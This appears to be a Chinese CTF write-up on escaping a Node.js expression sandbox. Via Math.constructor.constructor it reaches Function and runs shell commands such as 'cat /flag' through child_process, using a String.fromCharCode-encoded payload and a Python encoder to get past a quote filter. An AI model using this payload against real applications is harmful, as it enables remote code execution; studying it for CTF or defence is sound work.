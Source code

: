```
Math.constructor.constructor：这段代码利用 Math 对象的构造函数链来访问全局的 Function 构造器。
a("return process.mainModule.require('child_process').execSync('dir').toString()") 创建了一个新的函数，这个函数会执行传入的代码。在这个代码中，process.mainModule.require('child_process').execSync('dir') 用于执行 dir 命令，返回当前目录的文件列表。
```

在这题就是这样

```
Math=Math.constructor,
Math.constructor("return process.mainModule.require('child_process').execSync('dir').toString()")()

```

问题就是不允许字符串每一次Function里面很难绕过，所以我们使用`String.fromCharCode(...)` 

`String.fromCharCode(...)` 是一个 JavaScript 方法，用于根据 Unicode 编码值创建一个字符串。你可以传入一个或多个数字，这些数字代表 Unicode 字符的码点。

我们写个脚本，将字符转为ascii码

```
def gen(cmd):
  s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"
  return ','.join([str(ord(i)) for i in s])

```

但问题是String怎么获取，在没有单双引号的情况下，这里字符串的拼接

```
Math+1 //"[object Math]1"

```

这里使用箭头函数

```
(Math=>(Math=Math.constructor,Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41,46,116,111,83,116,114,105,110,103,40,41))()))(Math+1)

```

缩进一下就长这样

```
(Math=>
    (Math=Math.constructor,
            Math.constructor(
                Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
                    99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
                    46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
                    95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
                    121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
    )
)(Math+1)

```
